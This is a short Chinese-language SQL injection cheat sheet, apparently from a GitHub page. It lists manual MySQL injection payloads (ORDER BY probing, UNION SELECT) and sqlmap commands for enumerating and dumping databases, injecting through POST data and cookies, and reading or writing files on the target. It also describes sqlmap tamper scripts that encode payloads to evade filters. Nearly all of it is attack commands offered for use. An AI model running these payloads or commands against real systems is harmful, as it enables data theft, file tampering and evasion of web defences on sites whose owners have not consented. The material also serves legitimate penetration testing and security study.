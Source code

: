 > version(),database(),user() //版本，数据库名称，用户名

php+mysql手工注入
暴字段长度:`ORDER BY num/*`
匹配字段:`and 1=1 union select 1,2,3,4...n/*`

### sqlmap  

-dbs -v 0    -dbs, 根据不同的数据库管理平台探测包含的数据库名称    
-D dvwa --tables 根据数据库dvwa查找表名     -D dvwa --tables -T users --columns 查找dvwa数据库中的users表中的字段列表    
-D dvwa --tables -T users --columns --dump  字段内容  

> -u http://xxx.asp --data"id=114" --level 3
>  post注入

- python SQLmap.py -u "xxxx.com" --cookie "id=xx" --level 2 //判断url是否存在cookie注入
cookie注入：-u http://xxx.asp --cookie "id=114" --level 2

- `--tables` 爆表
- `-T 表名 --columns` 爆字段
- `-T 表名 -C 字段名 -C" "` --dump
- `--file-read 文件` 读取文件
- `--file-write 本地文件 --file-dest 目标目录`写入文件

### sqlmap 自带的绕过脚本 --tamper详解  

    (1) apostrophemask.py UTF-8编码 
    Example: 
    Input: AND '1'='1' 
    Output: AND %EF%BC%871%EF%BC%87=%EF%BC%871%EF%BC%87 

    (2) apostrophenullencode.py unicode编码 
    Example: 
    Input: AND '1'='1' 
    Output: AND %00%271%00%27=%00%271%00%27 

    (3) appendnullbyte.py 添加%00   
    Example:  
    Input: AND 1=1  
    Output: AND 1=1%00  
    Requirement:  
    Microsoft Access  

    (4) base64encode.py base64编码 
    Example: 
    Input: 1' AND SLEEP(5)# 
    Output: MScgQU5EIFNMRUVQKDUpIw` 

    (5) between.py 以”not between”替换”>“ 
    Example: 
    Input: 'A > B' 
    Output: 'A NOT BETWEEN 0 AND B' 

    (6) bluecoat.py 以随机的空白字符替代空格，以”like”替代”=“ 
    Example: 
    Input: SELECT id FROM users where id = 1 
    Output: SELECT%09id FROM users where id LIKE 1 
    Requirement: 
    MySQL 5.1, SGOS 
